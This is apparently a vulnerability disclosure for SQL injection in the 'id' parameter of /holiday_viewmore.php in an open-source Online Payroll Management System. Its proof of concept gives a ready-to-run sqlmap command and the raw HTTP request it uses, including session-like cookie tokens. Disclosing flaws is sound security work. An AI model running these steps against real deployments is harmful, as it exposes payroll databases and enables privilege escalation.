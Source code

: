 [description]
 
Online-Payroll-Management-System was discovered to contain a SQL Injection vulnerability via the URI /holiday_viewmore.php with parameter name 'id'.

 ------------------------------------------

 [Vulnerability Type]
 
 SQL Injection

 ------------------------------------------
 [Vendor of Product]
 
 Online-Payroll-Management-System,https://github.com/MD-MAFUJUL-HASAN/Online-Payroll-Management-System

 ------------------------------------------

 [Affected Product Code Base]
 
 <=commit a8902bf64575e325f6d6bf93a55f7bd273ec58cd

 ------------------------------------------

 [Impact Escalation of Privileges]
 
 true

 ------------------------------------------
 [POC]
<img width="820" alt="图片" src="https://github.com/user-attachments/assets/f0016040-8c7e-49b4-a3f6-c3691ac2c6ce">
<img width="694" alt="图片" src="https://github.com/user-attachments/assets/2dd23138-34cd-470e-9ac1-13bfc39c7e98">






sqlmap:
```
sqlmap -r a.txt -p id --batch --banner --flush-session

```
a.txt
```
GET /holiday_viewmore.php?id=13 HTTP/1.1
Host: 192.168.0.183:11182
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.183:11182/holiday_view.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Cookie: i18next=en; Admin-Token=eyJhbGciOiJIUzUxMiJ9.eyJsb2dpbl91c2VyX2tleSI6ImU0ZjJhZWJmLWVkMDEtNGM0OC04YjU4LTI3OTFjMzllMzFmMCJ9.0J-cqM7f9-cNNDe8_Q3CAiWkq4iyNqLDbBUh6mnYfRl1Ygv4HPIp3Ky1cbbpN3_4Zr8lYluJ5-nEunFvF84Xyw; sidebarStatus=0; pro_end=-1; ltd_end=-1; serverType=nginx; order=id%20desc; memSize=32012; SESSIONID=5253906e-713a-40e1-9da8-379c12b5fc68.g9MHRcbVBSSnuxBS2kXozqhXoig; request_token=R2jSjrmCm9VN6xmDbAK0n3uK282rC2acIB330unM9N1GRSTD; sites_path=/www/wwwroot; distribution=ubuntu; force=0; load_type=null; uploadSize=1073741824; rank=a; form_proxy=%5Bobject%20Object%5D; backup_path=/www/backup; PHPSESSID=72uq71htklndamdj2mrmj2f9o7; pnull=1; load_page=1; load_search=undefined; vcodesum=13; BatchPaste=null; _ga=GA1.1.2111016145.1721287966; _gid=GA1.1.1011972672.1721287966; Path=/www/wwwroot/Online-Payroll-Management-System.com; _gat=1; _ga_J1DQF09WZC=GS1.1.1721287966.1.1.1721291809.0.0.0
Connection: keep-alive
```
